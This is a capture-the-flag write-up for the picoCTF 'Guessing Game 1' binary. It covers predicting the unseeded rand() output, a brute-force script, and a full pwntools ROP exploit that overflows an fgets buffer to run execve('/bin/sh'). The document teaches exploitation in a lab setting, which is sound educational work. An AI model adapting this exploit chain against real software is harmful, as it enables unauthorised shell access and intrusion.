








# Guessing Game 1


Target: `vuln` (64-bit, **statically linked**, **no PIE**, NX enabled).
Vulnerability: `fgets(winner, 360, stdin)` into `char winner[100]` in `win()` → stack buffer overflow.
Goal: get a shell using a ROP chain that invokes `execve("/bin/sh", 0, 0)` via a `syscall` gadget. Because binary is static and has no `system()`, we use syscall `execve` directly.

---


# guessing the no:


first of all we need to guesss the right no as the binary uses 


```c
long get_random() {
	return rand() % BUFSIZE;
}
```


In C, rand() is a pseudo-random number generator (PRNG)

Its output sequence is deterministic — it always depends on an internal state (the “seed”).

The seed is set with srand(seed).

but here `srand()` is not called  If srand() is never called, then the seed defaults to 1 at program start (that’s how glibc and many libc implementations behave).

here i have just bruteforce the no using this script 


```python
#!/usr/bin/python3
from pwn import *
import sys

class bcolors:
    GREEN = '\u001b[32m'
    RED   = '\u001b[31m'
    ENDC  = '\033[0m'

# -------------------------
# Args check
# -------------------------
if len(sys.argv) != 3:
    print(f"Usage: {sys.argv[0]} remote|local <count>")
    sys.exit(0)

mode = sys.argv[1].lower()
count = int(sys.argv[2])

# -------------------------
# Config
# -------------------------
REMOTE_HOST = 'shape-facility.picoctf.net'
REMOTE_PORT = 64338          # <-- put the actual port here
elf = ELF('./vuln')

random_sequence = []


for i in range(count):
    for j in range(1, 101):

        # open connection
        if mode == "remote":
            r = remote(REMOTE_HOST, REMOTE_PORT)
        else:
            r = elf.process()

        # skip intro
        r.recvline()
        r.recvline()

        # replay already found numbers
        for number in random_sequence:
            r.recvuntil(b'What number would you like to guess?\n')
            r.sendline(str(number).encode())
            r.recvuntil(b'Name? ')
            r.sendline(b'whitesnake')

        # now try candidate j
        r.recvuntil(b'What number would you like to guess?\n')
        r.sendline(str(j).encode())

        response = r.recvline(timeout=1)
        if response and b'Nope' not in response:
            random_sequence.append(j)
            r.close()
            break

        r.close()

print(random_sequence)

```




it can find more magic nos but that would not be nessasery 


---


# Vulnerable code (relevant parts)

```c
void win() {
    char winner[BUFSIZE];      // BUFSIZE == 100
    printf("New winner!\nName? ");
    fgets(winner, 360, stdin); // reads up to 359 bytes -> overflow
    printf("Congrats %s\n\n", winner);
}
```

`fgets()` accepts far more bytes than the buffer, allowing overwrite of saved RBP / saved RIP on the stack.

---

# Binary facts (how to verify)

Example useful commands (you already ran many of these):


* Check dynamic linking (static/dynamic):


```bash
ldd vuln
```



so it is statically lined there is no need for GOT overight or some thing like it

* cheak for system():

we can cheak if system is called as the binary is static 




but there is no system call so we will go with syscall way

* Check sections, find .bss:

```bash
readelf -S vuln | grep bss
```



* Confirm gadgets (use ROPgadget or ROP tool):

```bash
ROPgadget --binary vuln | grep ': pop r[ads][ix] ; ret$'
```




* Find simple syscall gadget:

```bash
ROPgadget --binary vuln | grep 'syscall$'
```




---

# Gadgets & addresses used (from your run)

(Use the addresses found on your machine — these are fixed because the binary is non-PIE.)

```python
pop rax ; ret  # -> 0x00000000004005af
pop rdi ; ret  # -> 0x00000000004006a6
pop rsi ; ret  # -> 0x0000000000410b93
pop rdx ; ret  # -> 0x0000000000410602
syscall        # -> 0x000000000040138c
.bss start     # -> 0x00000000006bc3a0   (writable space)
read() symbol  # -> elf.symbols['read']  (use pwntools to get exact address)
```

> **Important:** If you recompile or use a different binary, re-run `ROPgadget` / `readelf` to get addresses. Because the binary has no PIE, the offsets will remain constant on the same build.

---

# Layout / offsets

Before building a payload, find the offset from buffer start to saved return address (RIP). Do **not** guess — confirm with `cyclic()` or `ragg2` i will go with ragg2 :

Example to find offset with pwntools:



+
---

# Exploit strategy (two-stage ROP)

Because binary is static and there is no `system()` symbol available, and we need the string `"/bin/sh"` in memory, we use a two-stage ROP:

1. **Stage 1:** Call `read(0, bss, 16)` using ROP:

   * set `rdi=0` (fd stdin)
   * set `rsi=bss` (destination)
   * set `rdx=16` (number of bytes to read)
   * call `read` (address in binary)

   This causes the process to read the `"/bin/sh\x00"` bytes that your exploit will send after the ROP payload.

2. **Stage 2:** Call `execve(bss, 0, 0)` with syscall:

   * set `rax = 59` (syscall number execve)
   * set `rdi = bss` (pointer to "/bin/sh")
   * set `rsi = 0`
   * set `rdx = 0`
   * execute `syscall` gadget

This avoids libc dependency and uses only code inside the target binary (or syscalls).

---

# The payload (annotated)

Assume variables:

* `offset` = offset to RIP (found earlier, e.g. 112 or 120)
* `pop_*` and `syscall` are the gadgets from above
* `bss` = `0x6bc3a0` (writable)

Annotated payload (Python/pwntools):

```python
payload  = b'A' * offset

# --- call read(0, bss, 16) ---
payload += p64(pop_rdi)
payload += p64(0)            # rdi = 0 (stdin)
payload += p64(pop_rsi)
payload += p64(bss)          # rsi = bss (destination)
payload += p64(pop_rdx)
payload += p64(16)           # rdx = 16 (size)
payload += p64(elf.symbols['read'])  # call read()

# --- execve(bss, 0, 0) via syscall ---
payload += p64(pop_rax)
payload += p64(59)           # rax = 59 (execve)
payload += p64(pop_rdi)
payload += p64(bss)          # rdi = bss (pointer to "/bin/sh")
payload += p64(pop_rsi)
payload += p64(0)            # rsi = NULL
payload += p64(pop_rdx)
payload += p64(0)            # rdx = NULL
payload += p64(syscall)      # syscall -> execve("/bin/sh", NULL, NULL)
```

After sending `payload` as the `Name?` input, the `read()` step will cause the binary to block and read the contents you will send next. Immediately after sending the 16 bytes `b"/bin/sh\x00"` (for example via `p.sendline(b"/bin/sh\x00")`), the ROP chain continues and triggers the `execve`.

---

# Full exploit script (polished)

This is the final script (based on your working skeleton). Replace `offset` with the value you confirmed, and confirm `bss` & gadget addresses.

```python
#!/usr/bin/env python3
from pwn import *

context.binary = ELF('./vuln')
elf = context.binary

REMOTE_HOST = 'shape-facility.picoctf.net'
REMOTE_PORT = 64338

# run with: python3 exploit.py (local)  OR: python3 exploit.py REMOTE
if args.REMOTE:
    p = remote(REMOTE_HOST, REMOTE_PORT)
else:
    p = process('./vuln')

# found magic numbers (you already discovered the first one)
magic_number = [84]   # if you want, extend with more by cracking sequence

# sync and send first winning guess
p.recvuntil(b'What number would you like to guess?\n')
p.sendline(str(magic_number[0]).encode())
p.recvuntil(b'Name? ')

# gadgets & addresses
pop_rax = 0x00000000004005af
pop_rdi = 0x00000000004006a6
pop_rsi = 0x0000000000410b93
pop_rdx = 0x0000000000410602
syscall = 0x000000000040138c
bss = 0x00000000006bc3a0

# use the offset you confirmed with cyclic_find
offset = 120   # <-- CHANGE to value you measured (112 vs 120)

# build payload
payload  = b'A' * offset
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi) + p64(bss)
payload += p64(pop_rdx) + p64(16)
payload += p64(elf.symbols['read'])
payload += p64(pop_rax) + p64(59)
payload += p64(pop_rdi) + p64(bss)
payload += p64(pop_rsi) + p64(0)
payload += p64(pop_rdx) + p64(0)
payload += p64(syscall)

# send payload, then the "/bin/sh" bytes read() will write into .bss
p.sendline(payload)
p.sendline(b"/bin/sh\x00")

# interactive shell
p.interactive()
```

Run:

```bash
# local
python3 exploit.py

# remote
python3 exploit.py REMOTE=1
```

---




